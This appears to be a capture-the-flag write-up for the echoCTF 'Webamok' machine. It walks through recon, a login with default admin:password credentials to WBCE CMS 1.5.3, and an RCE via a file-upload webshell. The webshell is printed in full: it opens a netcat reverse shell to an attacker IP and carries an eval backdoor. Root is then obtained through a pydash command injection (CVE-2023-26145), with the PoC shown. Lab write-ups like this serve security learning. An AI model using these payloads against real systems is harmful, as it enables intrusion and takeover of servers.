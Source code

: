 ```yaml
---
description: >-
  Webamok echoCTF Machine
title: Webamok (Intermediate)                # Add title here
date: 2025-02-19 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Easy]                     # Change Templates to Writeup
tags: [Default Credentials, WBCE CMS, Unrestricted File Upload, Pydash Command Injection]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Webamok.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.236    webamok.echocity-f.com
```

### Content

- Default Credentials
- WBCE CMS 1.5.3 RCE via admin/languages/install.php
- Pydash Command Injection (CVE-2023-26145)

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.236
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.236 ()   Status: Up
Host: 10.0.160.236 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.236
Nmap scan report for 10.0.160.236
Host is up, received user-set (0.16s latency).
Scanned at 2025-02-19 19:41:20 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 56:e7:18:44:d9:bd:c9:6c:90:93:c7:a4:04:f7:3a:35 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIKfaA1DM+H/xzrLDU7B64zQgWEA8sgJelmmNWuWTbPIFuIi473cMxUhffpcEk/3/7uycwDC94QVjQGPSJxKrXs=
|   256 f2:ca:d3:49:ab:df:26:2f:4b:91:15:4a:fa:08:80:da (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK7/m544YnMo/rPoWjdfmq5XryDzBsgjt4qfGxF+LrQX
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
|_http-title: Website Under Construction 
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation
There is only HTTP TCP-80 port open which indicates a web application, once we go into it, there is a web page that says, the website is under construction:
![](/assets/img/Pasted-image-20250219184327.png)

The source code also has nothing interesting, so I run a `dirsearch` command:
```bash
dirsearch -u http://10.0.160.236/                                                                                                
[18:35:10] Starting: 
<REDACTED>                                             
[18:35:53] 301 -  314B  - /account  ->  http://10.0.160.236/account/        
[18:35:53] 301 -    0B  - /account/  ->  login.php                          
[18:35:53] 302 -    0B  - /account/login.php  ->  http://webamok.echocity-f.com/index.php
[18:35:55] 301 -  312B  - /admin  ->  http://10.0.160.236/admin/            
[18:35:56] 302 -    0B  - /admin/  ->  http://webamok.echocity-f.com/admin/start/index.php
[18:35:57] 302 -    0B  - /admin/index.php  ->  http://webamok.echocity-f.com/admin/start/index.php
[18:35:58] 301 -  318B  - /admin/login  ->  http://10.0.160.236/admin/login/
[18:36:16] 200 -    0B  - /config.php                                       
[18:36:27] 200 -   34KB - /favicon.ico                                      
[18:36:31] 301 -  314B  - /include  ->  http://10.0.160.236/include/        
[18:36:31] 301 -    0B  - /include/  ->  ../index.php                       
[18:36:34] 301 -  316B  - /languages  ->  http://10.0.160.236/languages/    
[18:36:41] 301 -  312B  - /media  ->  http://10.0.160.236/media/            
[18:36:41] 200 -  403B  - /media/                                           
[18:36:43] 301 -  314B  - /modules  ->  http://10.0.160.236/modules/        
[18:36:43] 301 -    0B  - /modules/  ->  ../index.php                       
[18:36:46] 301 -  312B  - /pages  ->  http://10.0.160.236/pages/            
[18:36:46] 301 -    0B  - /pages/  ->  ../index.php                         
[18:36:55] 301 -  313B  - /search  ->  http://10.0.160.236/search/                                             
[18:37:04] 301 -    0B  - /temp/  ->  ../index.php                          
[18:37:04] 301 -  311B  - /temp  ->  http://10.0.160.236/temp/              
[18:37:04] 301 -  316B  - /templates  ->  http://10.0.160.236/templates/    
[18:37:04] 301 -    0B  - /templates/  ->  ../index.php                     
[18:37:09] 301 -  310B  - /var  ->  http://10.0.160.236/var/                
[18:37:09] 301 -    0B  - /var/  ->  ../index.php                           
[18:37:10] 200 -  465B  - /var/logs/
```
Digging around some of this folders I also came to a redirect towards `http://webamok.echocity-f.com` so I added this entry to my `/etc/hosts file`:
```bash
cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.236    webamok.echocity-f.com
```
And then, the most interesting page was the admin login page:
![](/assets/img/Pasted-image-20250219184704.png)

Which gives me an idea about the CMS in use, called `WBCE CMS`, then I started looking for exploits and my research came back with this blog about [WBCE CMS 1.5.3 RCE](https://ndmcyb.hashnode.dev/wbce-cms-153-has-a-rce-via-adminlanguagesinstallphp), all I need for it is to be authenticated, and as most of the echoCTF machines, the credentials in use should be default, so after some attempts I manage to authenticate using `admin:password`:

![](/assets/img/Pasted-image-20250219185024.png)

This makes me realize that the version is exactly the same as in the post, so all I need to do is to upload a webshell, at first it seems like there is an input validation in place, because the message `Security offense! Access denied!` shows up when we tried to access to the page:

`http://webamok.echocity-f.com/admin/languages/index.php`

![](/assets/img/Pasted-image-20250219185223.png)

But if you click on "Back" button, you got redirected to the Languages Installation feature which is vulnerable to RCE:

![](/assets/img/Pasted-image-20250219185359.png)

Then I was able to upload my webshell with the following content, I used the exact same payload as in the blog because somehow, other payloads didn't work for me:
```bash
<?php echo(system('nc -e /bin/bash 10.10.5.122 1234'));@eval($_POST[stcs]);?>
```

Don't forget to start your listener :-)

### Privilege Escalation

The privilege escalation was simple because you only have to run the command `sudo -l` and you'll see that you are able to run this script as sudo:
```bash
www-data@webamok:/var/www/html/admin/languages$ sudo -l
Matching Defaults entries for www-data on webamok:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on webamok:
    (ALL : ALL) NOPASSWD: /usr/local/bin/amok
```
The content is a python script, which is using pydash:
```python
#!/usr/bin/python3
import sys
import random
import pydash

class Animal:
    def __init__(self, typ, age):
        self.type = typ
        self.age = age
        self.id = random.randint(1, 99999)

def amok(path, arg):
    obj = Animal('cat', 11)
    res = pydash.invoke(obj, path, arg)
    print(res)

if __name__ == '__main__':
    if len(sys.argv) < 3:
        print('Missing args: %s <path> <arg>' % sys.argv[0])
        sys.exit(1)
    amok(sys.argv[1], sys.argv[2])
```
The interesting entrypoint here is the line of code `res = pydash.invoke(obj, path, arg)`, so I investigate any vulnerability related with pydash, and I got this [Pydash Command Injection](https://security.snyk.io/vuln/SNYK-PYTHON-PYDASH-5916518) snyk report, which has this PoC, which is similar to our script:

PoC
```bash
import sys
import random

import pydash


class Animal:
    def __init__(self, typ, age):
        self.type = typ
        self.age = age
        self.id = random.randint(1, 99999)


def poc(path, arg):
    """
        Use a malicious path to execute code via the __init__.__globals__ dict (not available with dict/list input objects?)
        I.e: pydash.invoke(obj, '__init__.__globals__.random._os.system', 'id')
    """

    obj = Animal('cat', 11)
    res = pydash.invoke(obj, path, arg)
    print(res)


if __name__ == '__main__':
    if len(sys.argv) < 3:
        print('Missing args: %s <path> <arg>' % sys.argv[0])
        sys.exit(1)
    poc(sys.argv[1], sys.argv[2])

```
According with the comment all we need to do is pass this two arguments to our script and we'll have the `id` output command:
```bash
sudo /usr/local/bin/amok "__init__.__globals__.random._os.system" "id"
uid=0(root) gid=0(root) groups=0(root)
```

Finally, change the `id` command for your preferred way to escalate privs.

AND WE ARE INSIDE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- Credentials for WBCE CMS are: `admin:password`

### Notes

- WBCE CMS has several vulnerabilities, our job is to find which one could be dangerous for the app, in this case, our research retrieved a sucessful RCE exploitation via unrestriced file upload, I've attempted to execute several of the payloads out there but only this one was working, while is a good idea to try all the payloads, is more important to understand what are we executing to avoid any disruption in the service, or worse...

### References
- [WBCE CMS 1.5.3 RCE](https://ndmcyb.hashnode.dev/wbce-cms-153-has-a-rce-via-adminlanguagesinstallphp)
- [Pydash Command Injection](https://security.snyk.io/vuln/SNYK-PYTHON-PYDASH-5916518)

